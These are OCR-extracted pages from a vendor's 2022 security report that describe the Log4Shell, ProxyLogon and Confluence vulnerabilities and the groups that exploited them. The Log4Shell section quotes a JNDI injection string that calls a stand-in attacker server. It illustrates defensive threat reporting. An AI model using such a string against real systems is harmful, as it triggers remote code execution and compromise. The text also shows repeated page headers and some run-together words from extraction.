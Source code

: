 55
CHECK POINT SOFTWARE\|SECURITY REPORT 2022
55
CHECK POINT SOFTWARE\|SECURITY REPORT 2022
The following list of top vulnerabilities is based on data collected by the Check 
Point Intrusion Prevention System (IPS) sensor net and details some of the most 
popular and interesting attack techniques and exploits observed by Check Point 
researchers in 2021\.
LOG4SHELL APACHE LOG4J \- REMOTE CODE 
EXECUTION (CVE\-2021\-44228\)
Apache Log4j is an open\-source Java\-based logging package provided by the 
Apache Software Foundation, as part of the Apache Logging Services. It is the 
most popular Java logging library, used by millions of Java\-based applications 
worldwide to record activities such as routine system operations and error 
messages and to send diagnostics to system admins. On December 9, the Apache 
Foundation released an emergency Log4j version to address a critical flaw in the 
logging framework. This flaw enables threat actors to compromise a machine by 
sending it a simple string such as ${jndi:ldap:attacker\_serverpath} as part of 
the HTTP request, User\-Agent or any other input likely being logged by the server 
using Log4j. By controlling the messages logged via the logging package, arbitrary 
code could be executed from a remote server. Called Log4Shell, the vulnerability 
took the security community by storm due to its far\-reaching effects on millions 
of companies, including Cisco, Twitter, Cloudflare, Tesla, Amazon and Apple, that 
use Log4j. Widespread exploitation of the flaw was observed almost immediately, 
both by low skilled attackers to distribute cryptominers, as well as by state 
sponsored APT groups, to gain access to corporate networks. According to Check 
Point Research approximately 48\.3% of organizations were affected by exploitation 
attempts of the Log4Shell Vulnerability in 2021\.
CHAPTE R6
56
CHECK POINT SOFTWARE\|SECURITY REPORT 2022
56
CHECK POINT SOFTWARE\|SECURITY REPORT 2022
PROXYLOGON MICROSOFT EXCHANGE SERVER \- 
AUTHENTICATION BYPASS (CVE\-2021\-26855\)
ProxyLogon is the name given by researchers from DEVCORE to an authentication 
bypass vulnerability (CVE\-2021\-26855\) first discovered and reported in late 2020\. 
When combined with other vulnerabilities (CVE\-2021\-26857, CVE\-2021\-26858, 
CVE\-2021\-27065\), this infection chain can lead to remote code execution on any 
unpatched mainstream Exchange Server. ProxyLogon has been exploited in the 
wild by several APT groups. In August, Earth Baku launched a campaign in the 
Indo\-Pacific region using SQL injection and exploiting ProxyLogon as entry vectors. 
In September, the FamousSparrow cyberespionage group exploited the flaw as well 
as backdoor SparrowDoor on hotel chains, governments, private businesses and 
various other sectors worldwide. Another threat group, SquirrelWaffle, was seen 
hacking Microsoft Exchange servers with ProxyShell and ProxyLogon to spread 
malware through malicious emails.
ATLASSIAN CONFLUENCE \- REMOTE CODE 
EXECUTION (CVE\-2021\-26084\)
This critical Remote Code Execution in Atlassian Confluence Server or Confluence 
Data Center flaw, made public in August 2021, is derived from the Object Graph 
Navigation Language. It can be exploited without authentication, allowing a 
remote attacker to execute arbitrary code on the affected system. Atlassian 
releasedpatchesfor the affected enterprises and several Proof of Concept exploits 
were published. Threat actors subsequently scanned for the vulnerability with the 
aim of installing cryptominers. In September, the z0Miner cryptojacker attempted 
to conduct mining operations on vulnerable machines. In October, the Atom Silo 
ransomware operator was observed exploiting unpatched computers to launch 
ransomware attacks.
CHAPTE R6
57
CHECK POINT SOFTWARE\|SECURITY REPORT 2022
57
CHECK POINT SOFTWARE\|SECURITY REPORT 2022